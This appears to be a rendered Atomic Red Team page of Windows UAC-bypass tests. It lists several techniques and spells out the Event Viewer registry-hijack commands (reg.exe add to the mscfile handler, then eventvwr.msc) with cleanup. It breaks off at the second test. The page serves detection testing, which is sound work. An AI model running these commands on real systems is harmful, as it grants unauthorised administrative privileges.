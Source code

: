 - [Atomic Test #3 - Bypass UAC using Fodhelper](#atomic-test-3---bypass-uac-using-fodhelper)

- [Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell](#atomic-test-4---bypass-uac-using-fodhelper---powershell)

- [Atomic Test #5 - Bypass UAC using ComputerDefaults (PowerShell)](#atomic-test-5---bypass-uac-using-computerdefaults-powershell)

- [Atomic Test #6 - Bypass UAC by Mocking Trusted Directories](#atomic-test-6---bypass-uac-by-mocking-trusted-directories)

<br/>

## Atomic Test #1 - Bypass UAC using Event Viewer (cmd)

Bypasses User Account Control using Event Viewer and a relevant Windows Registry modification. More information here
- https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
Upon execution command prompt should be launched with administrative privelages

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `command_prompt`!

```cmd
reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "#{executable_binary}" /f
cmd.exe /c eventvwr.msc
```

#### Cleanup Commands:

```cmd
reg.exe delete hkcu\software\classes\mscfile /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Bypass UAC using Event Viewer (PowerShell)

PowerShell code to bypass User Account Control using Event Viewer and a relevant Windows Registry modification. More
information here - https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
Upon execution command prompt should be launched with administrative privelages

**Supported Platforms:** Windows

#### Inputs:
